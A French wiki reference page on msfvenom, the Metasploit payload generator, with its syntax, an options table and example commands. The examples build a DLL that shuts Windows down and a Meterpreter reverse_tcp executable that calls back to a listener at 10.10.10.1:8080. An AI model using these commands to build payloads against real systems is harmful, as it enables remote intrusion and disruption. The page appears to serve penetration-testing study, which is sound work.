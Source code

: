 ```yaml
---
title: msfvenom
description: Permet de générer des charges utiles (payloads) de toutes sortes
published: true
date: 2024-07-16T17:06:49.726Z
tags: outil, linux
editor: markdown
dateCreated: 2024-07-15T20:08:55.994Z
---
```


# Introduction

msfvenom est un outil de la suite Metasploit, cet outil permet de générer des charges utiles (payloads) de toutes sortes.

> La suite Metasploit est disponible au téléchargement ici: https://github.com/rapid7/metasploit-framework
> {.is-info}

# Syntaxe

`msfvenom -p [type de payload] [variable=valeur] -f [format] -o [fichier de sortie] [options]`

# Options

| Option                            | Description                                                                                                         |
| --------------------------------- | ------------------------------------------------------------------------------------------------------------------- |
| `-l [type]`                       | Liste tous les modules disponibles pour le type indiqué (paylods,encoders,nops,platforms,archs,encrypt,formats,all) |
| `-p [type de paylaod]`            | Spécifie le payload à utiliser                                                                                      |
| `--list-options`                  | Affiche les options disponibles avec le payload sélectionné                                                         |
| `-f [format]`                     | Spécifie le format à utiliser                                                                                       |
| `-e [encodeur]`                   | Spécifie l'encodeur à utiliser                                                                                      |
| `--service-name [nom]`            | Spécifie le nom du service lorsqu'un binaire de service est généré                                                  |
| `--smallest [nom]`                | Génere le payload le plus petit possible avec tous les encodeurs disponibles                                        |
| `--encrypt [type de chiffrement]` | Spécifie le type de chiffrement utilisé                                                                             |
| `--encrypt-key [clé]`             | Clé à utiliser avec le chiffrement                                                                                  |
| `-a [architecture]`               | Spécifie l'architecture souhaitée pour la génération du payload et l'encodage                                       |
| `-o [sortie]`                     | Sauvegarde le payload vers un fichier                                                                               |

# Exemples

Liste les payloads disponibles

`msfvenom -l payloads`

Utilise le payload windows/x64/exec avec comme argument cmd='shutdown /s', génere un fichier dll et l'exporte vers shutdown.dll

`msfvenom -p windows/x64/exec cmd='shutdown /s' -f dll -o shutdown.dll`

Utilise le payload windows/meterpreter/reverse_tcp avec comme argument LHOST=10.10.10.1 et LPORT=8080, génere un fichier exe et l'exporte vers reverse.exe

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.1 LPORT=8080 -f exe -o reverse.exe`
